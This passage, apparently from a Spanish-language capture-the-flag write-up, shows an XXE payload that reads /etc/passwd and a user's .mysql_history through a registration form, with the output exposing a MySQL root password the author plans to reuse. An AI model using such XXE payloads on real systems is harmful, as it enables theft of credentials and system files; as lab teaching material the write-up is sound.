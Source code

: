 ```
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
admin:x:1000:1000:admin,,,:/home/admin:/bin/bash

		 is already registered! </font> </p>
```

Vemos que ha funcionado, recordemos anteriormente que teniamos un puerto `MySQL` vamos a probar a intentar leer el archivo de `logs` de `MySQL` a ver si estuviera en la `home` de dicho usuario.

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [  
	<!ELEMENT foo ANY >
	<!ENTITY xxe SYSTEM "file:///home/admin/.mysql_history" >]>
	<details>
		<email>
	&xxe;
		</email>
		<password>
	admin
		</password>
	</details>
```

Info:

```
<p align='center'> <font color=white size='5pt'> 
	ALTER USER 'root'@'%' IDENTIFIED BY 'r00tt00rDB';
exit;

		 is already registered! </font> </p>
```

Veremos que ha funcionado, encima estamos viendo las credenciales de `mysql` del usuario `root` vamos a probarlas para entrar.
